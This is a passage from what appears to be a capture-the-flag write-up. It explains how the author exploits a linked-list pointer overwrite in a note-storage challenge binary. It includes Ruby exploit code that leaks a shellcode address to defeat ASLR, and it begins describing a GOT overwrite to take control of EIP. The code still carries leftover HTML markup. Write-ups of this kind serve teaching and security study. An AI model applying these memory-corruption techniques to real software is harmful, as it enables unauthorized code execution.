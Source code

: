 I knew exactly what I was looking at!

To summarize: they are allocating an array of data structures. Each structure comes after the previous, and contains previous/next pointers. By overwriting these pointers, we can cause an arbitrary address to be written with an arbitrary value. Sweet!

## Exploit part 1: Leaking an address

This is the part where I always cross my fingers. Is executable memory being used? Or am I going to have to do something clever? Honestly, I didn't even figure out whether this was heap or .bss or whatever—I found this issue almost entirely by recognizing the exploit category. But I figured the easiest thing to do is just to try:

- Create a long block containing shellcode
- Create a short block
- Write the shellcode to the long block, and just enough padding to get right up to the short block's 'previous' pointer
- Print out the first block

Hopefully this isn't too confusing. What we want is to figure out where in memory shellcode is stored. I didn't actually check if the address is randomized, but it doesn't matter—when I have the opportunity to read the address of shellcode in a reliable way, I always take it. Why not make the code ASLR-proof if it's not much extra work?

The code looks like this in my exploit:

```

<span class="Comment"># These are used to store shellcode and get the address</span>
reader = add_note(<span class="Type">SHELLCODE_SIZE</span> - <span class="Constant">16</span>)
read   = add_note(<span class="Constant">4</span>)

edit_note(reader, <span class="Type">SHELLCODE_SIZE</span>, <span class="Type">SHELLCODE</span> + (<span class="Special">"</span><span class="Special">\xcc</span><span class="Special">"</span> * (<span class="Type">SHELLCODE_SIZE</span> - SHELLCODE.length)))
result = print_note(reader, <span class="Type">SHELLCODE_SIZE</span> + <span class="Constant">8</span>).unpack(<span class="Special">"</span><span class="Constant">I*</span><span class="Special">"</span>)
<span class="Type">SHELLCODE_ADDRESS</span> = result[(<span class="Type">SHELLCODE_SIZE</span> / <span class="Constant">4</span>)] + <span class="Constant">0x0c</span>
```

In the end, that address wound up being slightly inaccurate. I ended up dealing with that using a NOP sled (ewwww) instead of troubleshooting. Maybe I should have tried to understand the allocation code after all? :)

Now I have the address of my shellcode, what can I do with it!?

## Exploit part 2: Controlling EIP

This is actually pretty easy once you understand part 1. Unlike gitsmsg (see the link above), RELRO wasn't enabled, which means I could edit the relocation table. The relocation table looks like:

```

<span class="Statement">.got.plt</span>:0<span class="Constant">8049FF4</span> <span class="Identifier">_got_plt</span>        <span class="Identifier">segment</span> <span class="Identifier">dword</span> <span class="Identifier">public</span> '<span class="Identifier">DATA</span>' <span class="Identifier">use32</span>
<span class="Statement">.got.plt</span>:0<span class="Constant">8049FF4</span>                 <span class="Identifier">assume</span> <span class="Identifier">cs</span>:<span class="Identifier">_got_plt</span>
<span class="Statement">.got.plt</span>:0<span class="Constant">8049FF4</span>                 <span class="Comment">;org 8049FF4h</span>
<span class="Statement">.got.plt</span>:0<span class="Constant">8049FF4</span>                 <span class="Identifier">align</span> <span class="Constant">10</span><span class="Identifier">h</span>
```
